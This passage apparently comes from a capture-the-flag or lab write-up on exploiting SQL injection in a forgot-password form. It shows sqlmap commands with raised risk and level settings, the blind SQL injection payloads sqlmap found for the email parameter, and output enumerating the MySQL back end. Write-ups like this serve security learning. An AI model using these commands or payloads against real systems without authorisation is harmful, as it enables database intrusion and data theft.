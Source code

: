 
The next step was to test for the possibility of SQL injections, since all pages make use of database operations. A single quote was provided to each of the forms to see if there is any unexpected responses. In the forget password page, a 500 response code was provided to the single quote. This indicates that this is vulnerable to SQL injection.


Sqlmap was used to exploit this vulnerability using:


```bash
$ sqlmap -r request.txt -p email
```


Request.txt contains the POST request that requests a reset password link to be set to the provided email. However, this original command did not lead to any exploit. This required changes to the command. This involved increasing the risk of the SQL commands and the level of thoroughness of tests performed by sqlmap.


Thus, the new command was able exploit SQL injection:


```bash
$ sqlmap -r request.txt -p email --risk=3 --level=5
sqlmap identified the following injection point(s) with a total of 696 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=aFncsmZJn6ElH6Sy6ORfvPPhdrXizcfLFviSiSTe&email=hello@thing.com' AND 5250=(SELECT (CASE WHEN (5250=5250) THEN 5250 ELSE (SELECT 2280 UNION SELECT 7262) END))-- -

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=aFncsmZJn6ElH6Sy6ORfvPPhdrXizcfLFviSiSTe&email=hello@thing.com' AND 7520=BENCHMARK(5000000,MD5(0x47757a5a))-- nEys
---
```


Next, the databases on the MySQL server can be viewed:


```bash
$ sqlmap -r request.txt -p email --risk=3 --level=5 --dbs
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=aFncsmZJn6ElH6Sy6ORfvPPhdrXizcfLFviSiSTe&email=hello@thing.com' AND 5250=(SELECT (CASE WHEN (5250=5250) THEN 5250 ELSE (SELECT 2280 UNION SELECT 7262) END))-- -

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=aFncsmZJn6ElH6Sy6ORfvPPhdrXizcfLFviSiSTe&email=hello@thing.com' AND 7520=BENCHMARK(5000000,MD5(0x47757a5a))-- nEys
---
[06:57:09] [INFO] testing MySQL
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to n
[06:57:14] [INFO] confirming MySQL
[06:57:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[06:57:18] [INFO] fetching database names
[06:57:18] [INFO] fetching number of databases
```